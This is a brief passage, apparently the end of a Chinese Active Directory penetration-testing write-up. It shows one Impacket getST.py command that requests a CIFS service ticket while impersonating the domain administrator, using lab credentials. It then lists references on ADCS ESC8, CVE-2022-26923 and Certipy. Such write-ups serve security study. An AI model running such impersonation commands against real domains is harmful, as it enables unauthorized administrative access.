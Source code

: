 请求票据

```plain
python3 getST.py -spn cifs/AD.penson.org -impersonate administrator -dc-ip 192.168.142.20 penson.org/penson$:penson123
```

[![](assets/1708508972-5cbe7f6fab2a3aefd1d015dc34f44b87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220171038-ea3af38e-cfcf-1.png)

参考文献  
[https://forum.butian.net/share/1583](https://forum.butian.net/share/1583)  
[https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/](https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/)  
[https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)  
[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)
